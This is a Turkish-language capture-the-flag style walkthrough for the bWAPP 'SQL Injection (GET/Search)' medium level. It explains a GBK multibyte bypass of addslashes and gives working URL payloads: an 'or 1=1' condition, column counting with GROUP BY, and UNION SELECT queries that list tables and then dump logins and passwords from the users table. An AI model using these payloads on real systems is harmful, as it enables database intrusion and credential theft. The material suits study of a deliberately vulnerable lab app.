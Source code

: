 ## bWAAP SQL Injection (GET/Search) Level Medium
Movies kısmına `'` karakteri koyuyoruz ve hata alamadığımız görüyoruz.

![](/images/first.PNG)

Bundan anlıyoruz ki `'` işaretini escapliyor. SQL sorgumuzun oluştuğu son hal ise aşağıdaki gibi olmaktadır;
```SQL
SELECT * FROM movies WHERE mname LIKE '%\'%'
```
Burada PHP tarafinda addslashes fonksiyonunun kullanıldığını görebiliriz challenge da bu fonksiyonu baypaslayabilmek için mysql char setimizin `character-set-server=GBK` şeklinde olması gereklidir.

###### MYSQL CHARSET AYARI

XAMPP yönetim panelinden my.ini konfigürasyon dosyasını açalım ve character-set-server’ı `character-set-server=GBK` olarak değiştirelim.

![](/images/sqlconf1.png)

![](/images/sqlconf2.png)

###### Addslashes

[Ömer Çıtak](https://omercitak.com/):
>Hex karşılığı 0xbf5c olan “¿\” karakteri, utf 8 charsetinde 2 karakter, GBK charsetinde 1 karakter olarak algılanıyor. İnjection saldırısında sorguya tek tırnak, yani 0x27 gönderdiğiniz vakit mysql_real_escape_string veya addslashes fonksiyonlarımız bizim tırnağımızı “\’” haline çeviriyor. Tırnaktan önce “¿” (0xbf) karakterini gönderdiğimizde yani “¿’” (0xbf27) karakterini gönderdiğimizde, tırnaktan önce \ eklendiğinden gönderdiğimiz karakter “¿\’” (0xbf5c27) halini alıyor. GBK charseti “¿\” karakterini tek karakter olarak aldıladığından sondaki tırnağımız boşa çıkıyor, böylece sorgunun gidişatını değiştirmiş oluyorsunuz. Sonrasında injection ile sorguyu istediğimiz şekle sokabiliriz.

###### bWAAP SQL Injection (GET/Search)

Uygulamamızda rastgele birşeyler aratalım ve url in title kısmını `title=%bf%27` olarak değiştirlerim.
![](/images/error.jpeg)
Tek tırnak işaretimiz fazla olduğu için SQL hatası aldık.Url in title kısmını `title=%bf%27or1=1--+` değiştirirsek artık hata almadığımızı ve iki koşuldan birisi doğru olduğu için tüm filmleri görmüş oluyoruz.

![](/images/or1=1.jpeg)

Tablonun kolon sayısını öğrenmek için `title=%bf%27GROUP BY (değer)--+` değer kısmını uygulama hata verene kadar bir bir arttıralım ve hata verdikten bir önceki sayımız  kolon sayımızdır.
Kolon sayımızı bulduğumuza göre UNION sorgumuzu çalıştırabiliriz.Tablo isimlerini bulmak için information_schema tablosunu kullanıyoruz. `title=%bf%27%20UNION%20SELECT%20NULL,table_name,NULL,NULL,NULL,NULL,NULL%20FROM%20information_schema.tables--+`

![](/images/tables.jpeg)

Sırada column ismini bulamız gerekli ama bunu maalesef ki başaramıyoruz çünkü tırnak karakterini escaplemek için `%bf`kullanmamız gerekli ve bu karakter tablo ismimizin içine giriyor ve tablo ismimizi bozuyor.

Örnek:table_name='' olarak string içine yazmamız gerek tablo ismi aşağıdaki gibi tablo ismimizin sonuna %bf karakteri geliyor.
**`title=%bf%27%20UNION%20SELECT%20NULL,column_name,NULL,NULL,NULL,NULL,NULL%20FROM%20information_schema.columns WHERE `_table_name=%bf%27tablename%bf%27--+**

Users isminde tablo bulduğumuz için klonları tahmin edebiliriz.Title ımızı değiştirerek kullanıcı adı ve parolayı çekiyoruz. 
`title=%bf%27%20UNION%20SELECT%20NULL,login,password,NULL,NULL,NULL,NULL%20FROM%20users--+`

![](/images/users.jpeg)

